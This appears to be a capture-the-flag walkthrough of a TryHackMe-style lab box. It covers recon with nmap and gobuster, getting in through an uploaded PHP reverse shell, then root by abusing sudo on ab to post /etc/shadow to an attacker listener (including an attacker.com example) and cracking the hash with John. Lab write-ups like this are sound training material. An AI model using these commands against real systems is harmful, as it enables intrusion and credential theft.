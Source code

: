 # NMAP

we begin by a nmap scan :

and see two ports: ssh and http
```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ nmap <IP>                 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-29 22:16 CEST
Nmap scan report for 10.10.104.209
Host is up (0.071s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 13.17 seconds
```

# Gobuster

and continue by run a gobuster scan :

```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u <IP>
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.104.209
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2022/07/29 22:25:53 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 316] [--> http://10.10.104.209/uploads/]
/css                  (Status: 301) [Size: 312] [--> http://10.10.104.209/css/]    
/js                   (Status: 301) [Size: 311] [--> http://10.10.104.209/js/] 
/robots.txt           (Status: 301) [Size: 311] [--> http://10.10.104.209/robots.txt] 
```

in `robots.txt` we found this:

```text
User-agent: *

Disallow: /message.php 
```

going to <IP>/message.php

and find some messages:

```text
john: hello admin, my friends alice don't find her password
admin: the password of alice is:
```
try to login into the website with the logins find in message.php and explore the website, then we find an section called upload where we can upload a php reverse shell [generator of reverse shell](http://revshells.com) use [pwnat-cs](https://github.com/calebstewart/pwncat) for listener and and go to `<IP>/upload/revshell.php` and getting the flag:

```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ pwncat-cs :9001   
[23:42:45] Welcome to pwncat 🐈!
[23:42:57] received connection from 127.0.0.1:49558
[23:42:57] 0.0.0.0:9001: upgrading from /usr/bin/dash to /usr/bin/bash
localhost:49558: registered new host w/ db
(local) pwncat$                                            
(remote) john@my-first-project:~$ ls
user.txt
(remote) john@my-first-project:~$ cat user.txt
THM{flag}
(remote) john@my-first-project:~$ 
```

# PrivEsc

then we type sudo -l for see the sudo perms of the user john:
```bash
john@my-first-project:~$ sudo -l
Matching Defaults entries for john on my-first-project:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User john may run the following commands on my-first-project:
    (root) NOPASSWD: /bin/ab
```

go to [GTFOBins](https://gtfobins.github.io/) and search for ab in gtfobins :
```bash
URL=http://attacker.com/
LFILE=file_to_send
sudo ab -p $LFILE $URL
```

for exploit this fail use netcat on the attacker pc:
```bash
nc -nlvp 9002
```

and set good params on the room bash:
```
URL=<IP>:9002/
LFILE=/etc/shadow
```

and exploit:
```
sudo ab -p $LFILE $URL
```

and it's return:
```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ nc -nlvp 9002               
listening on [any] 9002 ...
connect to [192.168.1.22] from (UNKNOWN) [192.168.1.25] 46008
POST / HTTP/1.0
Content-length: 1183
Content-type: text/plain
Host: 192.168.1.22:9002
User-Agent: ApacheBench/2.3
Accept: */*

root:hash:19199:0:99999:7:::
daemon:*:19046:0:99999:7:::
bin:*:19046:0:99999:7:::
sys:*:19046:0:99999:7:::
sync:*:19046:0:99999:7:::
games:*:19046:0:99999:7:::
man:*:19046:0:99999:7:::
lp:*:19046:0:99999:7:::
mail:*:19046:0:99999:7:::
news:*:19046:0:99999:7:::
uucp:*:19046:0:99999:7:::
proxy:*:19046:0:99999:7:::
www-data:*:19046:0:99999:7:::
backup:*:19046:0:99999:7:::
list:*:19046:0:99999:7:::
irc:*:19046:0:99999:7:::
gnats:*:19046:0:99999:7:::
nobody:*:19046:0:99999:7:::
systemd-network:*:19046:0:99999:7:::
systemd-resolve:*:19046:0:99999:7:::
systemd-timesync:*:19046:0:99999:7:::
messagebus:*:19046:0:99999:7:::
syslog:*:19046:0:99999:7:::
_apt:*:19046:0:99999:7:::
tss:*:19046:0:99999:7:::
uuidd:*:19046:0:99999:7:::
tcpdump:*:19046:0:99999:7:::
landscape:*:19046:0:99999:7:::
pollinate:*:19046:0:99999:7:::
usbmux:*:19198:0:99999:7:::
sshd:*:19198:0:99999:7:::
systemd-coredump:!!:19198::::::
lxd:!:19198::::::
mysql:!:19198:0:99999:7:::
john:hash:19199:0:99999:7:::
```
then use unshadow to bruteforce root password with john:
```bash
┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ unshadow passwd shadow > hash

┌──(ismael㉿kali)-[~/Documents/CTF/THM]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 256/256 AVX2 4x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
passwd      (root)     
1g 0:00:00:02 DONE (2022-07-29 23:37) 0.3773g/s 2125p/s 2125c/s 2125C/s allison1..katana
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

and use su to login as root and then go to /root for getting the 2nd flag:
```bash
Password: passwd
root@my-first-project:/home/john# cd /root
root@my-first-project:~# ls
root.txt  snap
root@my-first-project:~# cat root.txt
THM{flag}
root@my-first-project:~# 
```

